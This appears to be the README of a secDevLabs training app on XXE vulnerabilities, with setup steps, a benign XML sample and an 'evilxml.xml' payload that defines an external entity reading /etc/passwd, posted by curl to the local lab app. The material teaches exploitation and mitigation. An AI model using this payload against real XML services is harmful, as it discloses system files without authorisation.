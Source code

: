 # XXE-

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And  run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack :

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
